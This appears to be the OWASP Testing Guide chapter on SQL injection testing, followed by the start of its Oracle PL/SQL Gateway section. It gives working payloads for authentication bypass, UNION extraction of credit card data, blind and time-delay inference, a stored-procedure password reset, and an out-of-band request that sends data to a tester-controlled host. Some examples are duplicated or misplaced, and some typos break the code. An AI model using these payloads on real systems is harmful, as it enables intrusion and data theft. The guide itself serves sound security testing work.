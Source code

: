 ============================================================================================
OTG-INPVAL-005
============================================================================================

|

SQL Injection 침투 테스트

|

개요
============================================================================================

An SQL injection attack consists of insertion or "injection" of either a partial or complete SQL query via the data input or transmitted from the client (browser) to the web application. A successful SQL injection attack can read sensitive data from the database, modify database data (insert/update/delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file existing on the DBMS file system or write files into the file system, and, in some cases, issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands. 

In general the way web applications construct SQL statements involving SQL syntax written by the programmers is mixed with user-supplied data. Example: 

.. code-block:: html

    select title, text from news where id=$id 

In the example above the variable $id contains user-supplied data, while the remainder is the SQL static part supplied by the programmer; making the SQL statement dynamic. 

Because the way it was constructed, the user can supply crafted input trying to make the original SQL statement execute further actions of the user's choice. The example below illustrates the user-supplied data "10 or 1=1", changing the logic of the SQL statement, modifying the WHERE clause adding a condition "or 1=1". SQL Injection attacks can be divided into the following three classes: 

- Inband: data is extracted using the same channel that is used to inject the SQL code. This is the most straightforward kind of attack, in which the retrieved data is presented directly in the application web page. 
- Out-of-band: data is retrieved using a different channel (e.g., an email with the results of the query is generated and sent to the tester). 
- Inferential or Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server. 

A successful SQL Injection attack requires the attacker to craft a syntactically correct SQL Query. If the application returns an error message generated by an incorrect query, then it may be easier for an attacker to reconstruct the logic of the original query and, therefore, understand how to perform the injection correctly. However, if the application hides the error details, then the tester must be able to reverse engineer the logic of the original query. 

About the techniques to exploit SQL injection flaws there are five commons techniques. Also those techniques sometimes can be used in a combined way (e.g. union operator and out-of-band): 
 
- Union Operator: can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set. 
- Boolean: use Boolean condition(s) to verify whether certain conditions are true or false. 
- Error based: this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection. 
- Out-of-band: technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server). 
- Time delay: use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn't have some kind of answer (result, output, or error) from the application. 

|

How to Test 
============================================================================================

Detection Techniques 
-----------------------------------------------------------------------------------------

The first step in this test is to understand when the application interacts with a DB Server in order to access some data. Typical examples of cases when an application needs to talk to a DB include: 
 
- Authentication forms: when authentication is performed using a web form, chances are that the user credentials are checked against a database that contains all usernames and passwords (or, better, password hashes). 
- Search engines: the string submitted by the user could be used in a SQL query that extracts all relevant records from a database. 
- E-Commerce sites: the products and their characteristics (price, description, availability, etc) are very likely to be stored in a database. 

The tester has to make a list of all input fields whose values could be used in crafting a SQL query, including the hidden fields of POST requests and then test them separately, trying to interfere with the query and to generate an error. Consider also HTTP headers and Cookies. 
The very first test usually consists of adding a single quote (') or a semicolon (;) to the field or parameter under test. The first is used in SQL as a string terminator and, if not filtered by the application, would lead to an incorrect query. The second is used to end a SQL statement and, if it is not filtered, it is also likely to generate an error. The output of a vulnerable field might resemble the following (on a Microsoft SQL Server, in this case): 

.. code-block:: html

    Microsoft OLE DB Provider for ODBC Drivers error '80040e14' 
    [Microsoft][ODBC SQL Server Driver][SQL Server]Unclosed 
    quotation mark before the 
    character string ''. 
    /target/target.asp, line 113

Also comment delimiters (-- or /* */, etc) and other SQL keywords like 'AND' and 'OR' can be used to try to modify the query. A very simple but sometimes still effective technique is simply to insert a string where a number is expected, as an error like the following might be generated: 

.. code-block:: html

    Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
    [Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error 
    converting the 
    varchar value 'test' to a column of data type int. 
    /target/target.asp, line 113 

Monitor all the responses from the web server and have a look at the HTML/javascript source code. Sometimes the error is present inside them but for some reason (e.g. javascript error, HTML comments, etc) is not presented to the user. A full error message, like those in the examples, provides a wealth of information to the tester in order to mount a successful injection attack. However, applications often do not provide so much detail: a simple '500 Server Error' or a custom error page might be issued, meaning that we need to use blind injection techniques. In any case, it is very important to test each field separately: only one variable must vary while all the other remain constant, in order to precisely understand which parameters are vulnerable and which are not. 

|

Standard SQL Injection Testing 
-----------------------------------------------------------------------------------------

Example 1 (classical SQL Injection)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Consider the following SQL query: 

.. code-block:: html

    SELECT * FROM Users WHERE Username='$username' AND 
    Password='$password' 

A similar query is generally used from the web application in order to authenticate a user. If the query returns a value it means that inside the database a user with that set of credentials exists, then the user is allowed to login to the system, otherwise access is denied. The values of the input fields are generally obtained from the user through a web form. Suppose we insert the following User-name and Password values: 

.. code-block:: html

    $username = 1' or '1' = '1
    $password = 1' or '1' = '1 

The query will be: 

.. code-block:: html

    SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND 
    Password='1' OR '1' = '1' 

If we suppose that the values of the parameters are sent to the server through the GET method, and if the domain of the vulnerable web site is www.example.com, the request that we'll carry out will be: 

After a short analysis we notice that the query returns a value (or 

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1&password=1'%20or%20'1'%20=%20'1 

a set of values) because the condition is always true (OR 1=1). In this way the system has authenticated the user without knowing the username and password. 
In some systems the first row of a user table would be an administrator user. This may be the profile returned in some cases. 

Another example of query is the following: 

.. code-block:: html

    SELECT * FROM Users WHERE ((Username='$username') AND 
    (Password=MD5('$password'))) 

In this case, there are two problems, one due to the use of the parentheses and one due to the use of MD5 hash function. First of all, we resolve the problem of the parentheses. That simply consists of adding a number of closing parentheses until we obtain a corrected query. To resolve the second problem, we try to evade the second condition. We add to our query a final symbol that means that a comment is beginning. In this way, everything that follows such symbol is considered a comment. Every DBMS has its own syntax for comments, however, a common symbol to the greater majority of the databases is /*. In Oracle the symbol is "--". This said, the values that we'll use as Username and Password are: 

.. code-block:: html

    $username = 1' or '1' = '1'))/* 

    $password = foo 

In this way, we'll get the following query: 

.. code-block:: html

    $password = foo 

(Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.) 

The URL request will be: 

.. code-block:: html

    $password = foo 

This may return a number of values. Sometimes, the authentication code verifies that the number of returned records/results is exactly equal to 1. In the previous examples, this situation would be difficult (in the database there is only one value per user). In order to go around this problem, it is enough to insert a SQL command that imposes a condition that the number of the returned results must be one. (One record returned) In order to reach this goal, we use the operator "LIMIT <num>", where <num> is the number of the results/records that we want to be returned. With respect to the previous example, the value of the fields Username and Password will be modified as follows: 

.. code-block:: html

    $username = 1' or '1' = '1')) LIMIT 1/* 

    $password = foo 

In this way, we create a request like the follow: 

.. code-block:: html

    http://www.example.com/index.php?username=1'%20or%20 
    '1'%20=%20'1'))%20LIMIT%201/*&password=foo 

|

Example 2 (simple SELECT statement): Consider the following SQL query: 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

Consider also the request to a script who executes the query above: 

.. code-block:: html

    http://www.example.com/product.php?id=10 

When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. A good way to test if the application is vulnerable in this scenario is play with logic, using the operators AND and OR. 

Consider the request: 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND 1=2 
    
    SELECT * FROM products WHERE id_product=10 AND 1=2 

In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result: 

.. code-block:: html

    http://www.example.com/product.php?id=10 AND 1=1 

|

Example 3 (Stacked queries): 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Depending on the API which the web application is using and the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) it may be possible to execute multiple queries in one call. 


Consider the following SQL query: 

.. code-block:: html

    SELECT * FROM products WHERE id_product=$id_product 

A way to exploit the above scenario would be: 

.. code-block:: html

    http://www.example.com/product.php?id=10; INSERT INTO 
    users (...) 

This way is possible to execute many queries in a row and independent of the first query. 

|

Fingerprinting the Database 
-----------------------------------------------------------------------------------------

Even the SQL language is a standard, every DBMS has its peculiarity and differs from each other in many aspects like special commands, functions to retrieve data such as users names and databases, features, comments line etc. 

When the testers move to a more advanced SQL injection exploitation they need to know what the back end database is. 

1. The first way to find out what back end database is used is by observing the error returned by the application. Follow are some examples: 


**MySql:**

You have an error in your SQL syntax; check the manual 
that corresponds to your MySQL server version for the 
right syntax to use near '\'' at line 1 

**Oracle:**

ORA-00933: SQL command not properly ended 

**MS SQL Server:**

Microsoft SQL Native Client error '80040e14' 
Unclosed quotation mark after the character string 

**PostgreSQL:**

Query failed: ERROR: syntax error at or near 
"'" at character 56 in /www/site/test.php on line 121. 

2. If there is no error message or a custom error message, the tester can try to inject into string field using concatenation technique: 

|

Exploitation Techniques 
-----------------------------------------------------------------------------------------

Union Exploitation Technique
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ 

The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original query. The result of the forged query will be joined to the result of the original query, allowing the tester to obtain the values of columns of other tables. Suppose for our examples that the query executed from the server is the following: 

.. code-block:: html

    SELECT Name, Phone, Address FROM Users WHERE Id=$id

We will set the following $id value: 

.. code-block:: html

    $id=1 UNION ALL SELECT creditCardNumber,1,1 FROM Credit-
    CardTable

We will have the following query: 

.. code-block:: html

    SELECT Name, Phone, Address FROM Users WHERE Id=1 
    UNION ALL SELECT creditCardNumber,1,1 FROM CreditCard-
    Table 

Which will join the result of the original query with all the credit card numbers in the CreditCardTable table. The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected other two values. These two values are necessary, because the two queries must have an equal number of parameters/columns, in order to avoid a syntax error. 

The first detail a tester needs to exploit the SQL injection vulnerability using such technique is to find the right numbers of columns in the SELECT statement. In order to achieve this the tester can use ORDER BY clause followed by a number indicating the numeration of database's column selected: 

.. code-block:: html

    http://www.example.com/product.php?id=10 ORDER BY 10--

If the query executes with success the tester can assume, in this example, there are 10 or more columns in the SELECT statement. If the query fails then there must be fewer than 10 columns returned by the query. If there is an error message available, it would probably be: 

.. code-block:: html

    Unknown column '10' in 'order clause' 

After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were 3 columns in the example above, the tester could try each column type, using the NULL value to help them: 

.. code-block:: html

    http://www.example.com/product.php?id=10 UNION SELECT
    1,null,null--

If the query fails, the tester will probably see a message like: 

.. code-block:: html

    All cells in a column must have the same datatype 

If the query executes with success, the first column can be an integer. Then the tester can move further and so on: 

.. code-block:: html

    http://www.example.com/product.php?id=10 UNION SELECT 
    1,1,null-

After the successful information gathering, depending on the application, it may only show the tester the first result, because the application treats only the first line of the result set. In this case, it is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid (supposing there is no entry in the database which ID is 99999): 

.. code-block:: html

    http://www.example.com/product.php?id=99999 UNION 
    SELECT 1,1,null-


Boolean Exploitation Technique 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The Boolean exploitation technique is very useful when the tester finds a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. For example, this behavior happens in cases where the programmer has created a custom error page that does not reveal anything on the structure of the query or on the database. (The page does not return a SQL error, it may just return a HTTP 500, 404, or redirect). 
By using inference methods, it is possible to avoid this obstacle and thus to succeed in recovering the values of some desired fields. This method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. We consider, as always, the www.example.com domain and we suppose that it contains a parameter named id vulnerable to SQL injection. This means that carrying out the following request: 
http://www.example.com/index.php?id=1' 
We will get one page with a custom message error which is due to a syntactic error in the query. We suppose that the query executed on the server is: 
SELECT field1, field2, field3 FROM Users WHERE Id='$Id' 
Which is exploitable through the methods seen previously. What we want to obtain is the values of the username field. The tests that we will execute will allow us to obtain the value of the user-name field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database. For our examples, we will use the following pseudo-functions: 
SUBSTRING (text, start, length): returns a substring starting from the position "start" of text and of length "length". I f "start" is greater than the length of text, the function returns a null value. 
ASCII (char): it gives back ASCII value of the input character. A null value is returned if char is 0. 
LENGTH (text): it gives back the number of characters in the input text. 
Through such functions, we will execute our tests on the first character and, when we have discovered the value, we will pass to the second and so on, until we will have discovered the entire value. The tests will take advantage of the function SUBSTRING, in order to select only one character at a time (selecting a single character means to impose the length parameter to 1), and the function ASCII, in order to obtain the ASCII value, so that we can do numerical comparison. The results of the comparison will be done with all the values of the ASCII table, until the right value is found. As an example, we will use the following value for Id: 
$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1 
That creates the following query (from now on, we will call it "inferential query"): 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND 
ASCII(SUBSTRING(username,1,1))=97 AND '1'='1' 
The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. If we get a false value, then we increase the index of the ASCII table from 97 to 98 and we repeat the request. If instead we obtain a true value, we set to zero the index of the ASCII table and we analyze the next character, modifying the parameters of the SUBSTRING function. The problem is to understand in which way we can distinguish tests returning a true value from those that return false. To do this, we create a query that always returns false. This is possible by using the following value for Id: 
$Id=1' AND '1' = '2 
Which will create the following query: 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' 
= '2' 
The obtained response from the server (that is HTML code) will be the false value for our tests. This is enough to verify whether the value obtained from the execution of the inferential query is equal to the value obtained with the test executed before. Sometimes, this method does not work. If the server returns two different pages as a result of two identical consecutive web requests, we will not be able to discriminate the true value from the false value. In these particular cases, it is necessary to use particular filters that allow us to eliminate the code that changes between the two requests and to obtain a template. Later on, for every inferential request executed, we will extract the relative template from the response using the same function, and we will perform a control between the two templates in order to decide the result of the test. 


In the previous discussion, we haven't dealt with the problem of determining the termination condition for out tests, i.e., when we should end the inference procedure. A techniques to do this uses one characteristic of the SUBSTRING function and the LENGTH function. When the test compares the current character with the ASCII code 0 (i.e., the value null) and the test returns the value true, then either we are done with the inference procedure (we have scanned the whole string), or the value we have analyzed contains the null character. We will insert the following value for the field Id: 
$Id=1' AND LENGTH(username)=N AND '1' = '1 
Where N is the number of characters that we have analyzed up to now (not counting the null value). The query will be: 
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND 
LENGTH(username)=N AND '1' = '1' 
The query returns either true or false. If we obtain true, then we have completed the inference and, therefore, we know the value of the parameter. If we obtain false, this means that the null character is present in the value of the parameter, and we must continue to analyze the next parameter until we find another null value. 
The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability. 
Error based Exploitation technique 
An Error based exploitation technique is useful when the tester for some reason can't exploit the SQL injection vulnerability using other technique such as UNION. The Error based technique consists in forcing the database to perform some operation in which the result will be an error. The point here is to try to extract some data from the database and show it in the error message. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section). Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product 
Consider also the request to a script who executes the query above: 
http://www.example.com/product.php?id=10 
The malicious request would be (e.g. Oracle 10g): 
http://www.example.com/product.php?id=10||UTL_INADDR. 
GET_HOST_NAME( (SELECT user FROM DUAL) )-
In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the host name of the parameter passed to it, which is other query, the name of the user. When the database looks for a host name with the user database name, it will fail and return an error message like: 
ORA-292257: host SCOTT unknown 
Then the tester can manipulate the parameter passed to GET_ HOST_NAME() function and the result will be shown in the error message. 
Out of band Exploitation technique 
This technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester's server. Like the error based techniques, each DBMS has its own functions. Check for specific DBMS section. 
Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product 
Consider also the request to a script who executes the query above: 
http://www.example.com/product.php?id=10 
The malicious request would be: 
http://www.example.com/product.php?id=10||UTL_HTTP. 
request('testerserver.com:80'||(SELET user FROM DUAL)-
In this example, the tester is concatenating the value 10 with the result of the function UTL_HTTP.request. This Oracle function will try to connect to 'testerserver' and make a HTTP GET request containing the return from the query "SELECT user FROM DUAL". The tester can set up a webserver (e.g. Apache) or use the Netcat tool: 
/home/tester/nc .nLp 80 
GET /SCOTT HTTP/1.1 Host: testerserver.com Connection: close 
Time delay Exploitation technique 
The Boolean exploitation technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond. If there is a delay, the tester can assume the result of the conditional query is true. This exploitation technique can be different from DBMS to DBMS (check DBMS specific section). 
Consider the following SQL query: 
SELECT * FROM products WHERE id_product=$id_product Consider also the request to a script who executes the query above: 


http://www.example.com/product.php?id=10 
The malicious request would be (e.g. MySql 5.x): 
http://www.example.com/product.php?id=10 AND IF(version() 
like '5%', sleep(10), 'false'))-
In this example the tester if checking whether the MySql version is 
5.x or not, making the server to delay the answer by 10 seconds. The tester can increase the delay time and monitor the responses. The tester also doesn't need to wait for the response. Sometimes he can set a very high value (e.g. 100) and cancel the request after some seconds. 
Stored Procedure Injection 
When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure. 
Consider the following SQL Server Stored Procedure: 
Create procedure user_login @username varchar(20), @passwd varchar(20) As Declare @sqlstring varchar(250) Set @sqlstring = ' Select 1 from users Where username = ' + @username + ' and passwd = ' + @passwd exec(@sqlstring) Go 
User input: anyusername or 1=1' anypassword 
This procedure does not sanitize the input, therefore allowing the return value to show an existing record with these parameters. 
NOTE: This example may seem unlikely due to the use of dynamic SQL to log in a user, but consider a dynamic reporting query where the user selects the columns to view. The user could insert malicious code into this scenario and compromise the data. Consider the following SQL Server Stored Procedure: 
Create procedure get_report @columnamelist varchar(7900) As Declare @sqlstring varchar(8000) Set @sqlstring = ' Select ' + @ columnamelist + ' from ReportTable' exec(@sqlstring) Go 
User input: 
1 from users; update users set password = 'password'; select * 
This will result in the report running and all users' passwords being updated. 
Automated Exploitation 
Most of the situation and techniques presented here can be performed in a automated way using some tools. In this article the tester can find information how to perform an automated auditing using SQLMap: 
https:/
www.owasp.org/index.php/Automated_Audit_using_ SQLMap 


Tools 
. 
SQL Injection Fuzz Strings (from wfuzz tool) -

https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/ SQL.txt 

. 
OWASP SQLiX 

. 
Francois Larouche: Multiple DBMS SQL Injection tool -

SQL Power Injector 

. 
ilo--, Reversing.org -sqlbftools 

. 
Bernardo Damele A. G.: sqlmap, automatic SQL injection tool -

http://sqlmap.org/ 

. 
icesurfer: SQL Server Takeover Tool -sqlninja 

. 
Pangolin: Automated SQL Injection Tool -Pangolin 

. 
Muhaimin Dzulfakar: MySqloit, MySql Injection takeover tool 

http://code.google.com/p/mysqloit/ 

. 
Antonio Parata: Dump Files by SQL inference on Mysql -

SqlDumper 

. 
bsqlbf, a blind SQL injection tool in Perl 


References 
. 
Top 10 2013-A1-Injection 

. 
SQL Injection 

Technology specific Testing Guide pages have been created for the following DBMSs: 

. 
Oracle 

. 
MySQL 

. 
SQL Server 


Whitepapers 
. 
Victor Chapela: "Advanced SQL Injection" -

http://www.owasp.org/images/7/74/Advanced_SQL_Injection. ppt 

. 
Chris Anley: "Advanced SQL Injection In SQL Server Applications" 


-https://sparrow.ece.cmu.edu/group/731-s11/readings/anleysql-inj.pdf 
. 
Chris Anley: "More Advanced SQL Injection" -

http://www.encription.co.uk/downloads/more_advanced_sql_ injection.pdf 

. 
David Litchfield: "Data-mining with SQL Injection and Inference" 


-http://www.databasesecurity.com/webapps/sqlinference.pdf 
. 
Imperva: "Blinded SQL Injection" -https://www.imperva.com/lg/ lgw.asp?pid=369 

. 
Ferruh Mavituna: "SQL Injection Cheat Sheet" -

http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/ 

. 
Kevin Spett from SPI Dynamics: "SQL Injection" -

https://docs.google.com/file/ 
d/0B5CQOTY4YRQCSWRHNkNaaFMyQTA/edit 


. 
Kevin Spett from SPI Dynamics: "Blind SQL Injection" -


http://www.net-security.org/dl/articles/Blind_SQLInjection.pdf 


Testing for Oracle
Summary 
Web based PL/SQL applications are enabled by the PL/SQL Gateway, which is is the component that translates web requests into database queries. Oracle has developed a number of software implementations, ranging from the early web listener product to the Apache mod_plsql module to the XML Database (XDB) web server. All have their own quirks and issues, each of which will be thoroughly investigated in this chapter. Products that use the PL/SQL Gateway include, but are not limited to, the Oracle HTTP Server, eBusiness Suite, Portal, HTMLDB, WebDB and Oracle Application Server. 


How to Test 
How the PL/SQL Gateway works 
Essentially the PL/SQL Gateway simply acts as a proxy server taking the user's web request and passes it on to the database server where it is executed. 
[1] The web server accepts a request from a web client and determines if it should be processed by the PL/SQL Gateway. 
[2] The PL/SQL Gateway processes the request by extracting the requested package name, procedure, and variables. 
[3] The requested package and procedure are wrapped in a block of anonymous PL/SQL, and sent to the database server. 
[4] The database server executes the procedure and sends the results back to the Gateway as HTML. 
[5] The gateway sends the response, via the web server, back to the client. 
Understanding this point is important - the PL/SQL code does not exist on the web server but, rather, in the database server. This means that any weaknesses in the PL/SQL Gateway or any weaknesses in the PL/SQL application, when exploited, give an attacker direct access to the database server; no amount of firewalls will prevent this. 
URLs for PL/SQL web applications are normally easily recognizable and generally start with the following (xyz can be any string and represents a Database Access Descriptor, which you will learn more about later): 
http://www.example.com/pls/xyz 
http://www.example.com/xyz/owa 
http://www.example.com/xyz/plsql 
While the second and third of these examples represent URLs from older versions of the PL/SQL Gateway, the first is from more recent versions running on Apache. In the plsql.conf Apache configuration file, /pls is the default, specified as a Location with the PLS module as the handler. The location need not be /pls, however. The absence of a file extension in a URL could indicate the presence of the Oracle PL/SQL Gateway. Consider the following URL: 
http://www.server.com/aaa/bbb/xxxxx.yyyyy 
If xxxxx.yyyyy were replaced with something along the lines of "ebank. home," "store.welcome," "auth.login," or "books.search," then there's a fairly strong chance that the PL/SQL Gateway is being used. It is also possible to precede the requested package and procedure with the name of the user that owns it - i.e. the schema - in this case the user is "webuser": 
http://www.server.com/pls/xyz/webuser.pkg.proc 
In this URL, xyz is the Database Access Descriptor, or DAD. A DAD specifies information about the database server so that the PL/SQL Gateway can connect. It contains information such as the TNS connect string, the user ID and password, authentication methods, and so on. These DADs are specified in the dads.conf Apache configuration file in more recent versions or the wdbsvr.app file in older versions. Some default DADs include the following: 
SIMPLEDAD 
HTMLDB 
ORASSO 
SSODAD 
PORTAL 
PORTAL2 
PORTAL30 
PORTAL30_SSO 
TEST 
DAD 
APP 
ONLINE 
DB 
OWA 

Determining if the PL/SQL Gateway is running 
When performing an assessment against a server, it's important first to know what technology you're actually dealing with. If you don't already know, for example, in a black box assessment scenario, then the first thing you need to do is work this out. Recognizing a web based PL/SQL application is pretty easy. First, there is the format of the URL and what it looks like, discussed above. Beyond that there are a set of simple tests that can be performed to test for the existence of the PL/ SQL Gateway. 
Server response headers 
The web server's response headers are a good indicator as to whether the server is running the PL/SQL Gateway. The table below lists some of the typical server response headers: 
Oracle-Application-Server-10g Oracle-Application-Server-10g/10.1.2.0.0 Oracle-HTTP-Server Oracle-Application-Server-10g/9.0.4.1.0 Oracle-HTTP-Server Oracle-Application-Server-10g OracleAS-Web-Cache10g/9.0.4.2.0 (N) Oracle-Application-Server-10g/9.0.4.0.0 Oracle HTTP Server Powered by Apache Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_ plsql/3.0.9.8.3a Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_ plsql/3.0.9.8.3d Oracle HTTP Server Powered by Apache/1.3.12 (Unix) mod_ plsql/3.0.9.8.5e Oracle HTTP Server Powered by Apache/1.3.12 (Win32) mod_ plsql/3.0.9.8.5e Oracle HTTP Server Powered by Apache/1.3.19 (Win32) mod_ plsql/3.0.9.8.3c Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_ plsql/3.0.9.8.3b Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_ plsql/9.0.2.0.0 Oracle_Web_Listener/4.0.7.1.0EnterpriseEdition Oracle_Web_Listener/4.0.8.2EnterpriseEdition Oracle_Web_Listener/4.0.8.1.0EnterpriseEdition Oracle_Web_listener3.0.2.0.0/2.14FC1 Oracle9iAS/9.0.2 Oracle HTTP Server Oracle9iAS/9.0.3.1 Oracle HTTP Server 


The NULL test 
In PL/SQL, "null" is a perfectly acceptable expression: 
SQL> BEGIN
 2 NULL;
 3 END;
 4 / 
PL/SQL procedure successfully completed. 
We can use this to test if the server is running the PL/SQL Gateway. Simply take the DAD and append NULL, then append NOSUCHPROC: 
http://www.example.com/pls/dad/null 
http://www.example.com/pls/dad/nosuchproc 
If the server responds with a 200 OK response for the first and a 404 Not Found for the second then it indicates that the server is running the PL/SQL Gateway. 
Known package access 
On older versions of the PL/SQL Gateway, it is possible to directly access the packages that form the PL/SQL Web Toolkit such as the OWA and HTP packages. One of these packages is the OWA_UTIL package, which we'll speak about more later on. This package contains a procedure called SIGNATURE and it simply outputs in HTML a PL/SQL signature. Thus requesting 
"This page was produced by the PL/SQL Web Toolkit on date" 
returns the following output on the webpage 
"This page was produced by the PL/SQL Cartridge on date" 
or "This page was produced by the PL/SQL Cartridge on date" 
If you don't get this response but a 403 Forbidden response then you can infer that the PL/SQL Gateway is running. This is the response you should get in later versions or patched systems. 
Accessing Arbitrary PL/SQL Packages in the Database 
